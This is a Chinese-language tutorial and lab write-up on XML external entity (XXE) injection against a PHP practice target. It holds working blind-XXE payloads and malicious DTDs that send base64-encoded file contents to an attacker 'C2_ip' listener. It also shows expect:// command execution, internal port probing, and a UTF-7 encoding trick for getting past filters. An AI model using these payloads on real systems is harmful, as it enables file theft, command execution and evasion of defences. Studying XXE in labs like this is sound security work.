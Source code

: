 ## 概述

xxe漏洞主要针对webservice危险的引用的外部实体并且未对外部实体进行敏感字符的过滤，从而可以造成**命令执行，目录遍历，文件读取，探测内网端口，ddos**等．首先存在漏洞的web服务一定是存在xml传输数据的，可以在http头的content-type中查看，也可以根据url一些常见的关键字进行判断测试，例如wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。

## 靶场

https://github.com/c0ny1/xxe-lab

使用的php靶场；windows环境。

## 复现

**现实中存在的大多数xxe漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。**

A blind XXE injection callback handler. Uses HTTP and FTP to extract information:

https://github.com/TheTwitchy/xxer

启动 ftp 和 web 服务器用于作为监听 server：

![](images/1.jpg)

vim attack.dtd:

	<!ENTITY % all
	        "<!ENTITY &#x25; send SYSTEM 'http://C2_ip:2333/?%file;'>"
	>
	%all

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE ANY [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/Windows/win.ini">
	<!ENTITY % xxe2 SYSTEM "http://C2_ip:2333/attack.dtd">
	%xxe2;
	%send;
	]>
	<user><username></username><password></password></user>

通过 %xxe2; 和 %send; 调用执行。 

![](images/3.png)

![](images/2.png)

将传输的内容base64还原。

### 外带数据方法二

vim attack.dtd:

	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/Windows/win.ini">
	<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://C2_ip:2333/?%file;'>">

![](images/5.png)

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://C2_ip:2333/attack.dtd"> 
	%dtd;%int;%send;>
	]>

![](images/6.png)

#### php://filter

1. 编码写入

	index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm

2.  编码读取

	index.php?file1=php://filter/read=convert.base64-encode/resource=file.txt


**PS:**

1.如果直接使用%号的话，会出现下面的报错

```DOMDocument::loadXML(): Entity Value: ‘%’ forbidden except for entities```

**报错已经说的很清楚，%不允许出现在Entity的value中，所以需要将%进行Unicode编码为 &#37; 或者 &#x25;(转化成Unicode编码有两种形式，以&#后接十进制数字，&#x后接十六进制数字)**

2.php://filter，没直接使用 file:///etc/passwd

因为字符的原因，虽然没有在xml中加特殊字符，但是关于字符，有可见字符，也有不可见字符，所以这种情况，需要十六进制（xxd或者hexdump -C）显示一下是否有系统自己添加的特殊字符，就像echo "hello" > joker，echo命令本身就是回车显示，所以看似没有问题的URL，其实有一个小小的回车(0a)存在，导致保存，无法识别file读取的url路径。所以目前最好的方法就是利用php://filter流来读取文件。

## 扩展

XML在各语言下支持的协议有:

![](images/4.png)


### data 协议

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE root[ <!ENTITY % xxe SYSTEM "data://text/plain;base64,PCFFTlRJVFkgJSBkdGQgU1lTVEVNICdodHRwOi8vMTE0LjExNi4yNTMuMTQ4OjIzMzMvMDEuZHRkJz4="> 
	%xxe;
	%dtd;%int;%send;
	]>

base64 解码后为：

	<!ENTITY % dtd SYSTEM 'http://c2_ip:2333/01.dtd'>

### 命令执行及探测内网端口

https://www.cnblogs.com/linuxsec/articles/11666923.html

	<?xml version="1.0"?>
	    <!DOCTYPE Quan[
	    <!ENTITY f SYSTEM "expect://id">
	]>
	
	<hhh>&f;<hhh>

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE note[
	    <!ENTITY Quan SYSTEM "http://192.168.246.136:80">
	]>
	
	<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>

类似于 jackson/fastjson 攻击。 

### XXE DOS

https://en.wikipedia.org/wiki/Billion_laughs_attack

实际效果未验证。



## 检测绕过

### utf7编码绕过

![](images/7.png)

将打算使用utf-7编码的payload 复制到 a.xml 中，

![](images/8.png)

安装linux编码转换工具 recode:

	yum install recode -y

将 utf-8 转换为 utf-7:

	recode UTF8..UTF7 a.xml

转换成功！

![](images/9.png)

将转换好的payload复制，并添加 utf-7 头，```<?xml version="1.0" encoding="UTF-7"?>```，成功外带数据！

	<?xml version="1.0" encoding="UTF-7"?>
	+ADwAIQ-DOCTYPE root+AFs +ADwAIQ-ENTITY +ACU dtd SYSTEM +ACI-http://c2_ip:2333/01.dtd+ACIAPg 
	+ACU-dtd+ADsAJQ-int+ADsAJQ-send+ADsAPg
	+AF0APg-

![](images/10.png)

## 参考资料

[XML中关于DTD类型（内部（SYSTEM）的和外部（PUBLIC）的区别）](https://www.cnblogs.com/happyting/archive/2010/05/07/1729999.html)

[java环境下利用blind xxe来列目录和文件读取](http://www.voidcn.com/article/p-njawsjxm-ko.html)

[bwapp亲测xxe漏洞](https://www.cnblogs.com/bmjoker/p/9626241.html)

[Github-XML External Entity (XXE) Injection **Payload List**](https://github.com/payloadbox/xxe-injection-payload-list)

[包含gopher/jar等协议的，XML外部实体（XXE）注入详解](https://www.cnblogs.com/backlion/p/9302528.html)

[绕过WAF保护的XXE](https://xz.aliyun.com/t/4059)

[get型xxe参考-DuckDuckGo搜索引擎的XXE漏洞](https://nosec.org/home/detail/2219.html)

[JAVA常见的XXE漏洞写法和防御](https://blog.spoock.com/2018/10/23/java-xxe/)


[**带外通道技术（OOB）总结**](https://blog.csdn.net/Eagle_pompom/article/details/89525663)


![](images/11.jpg)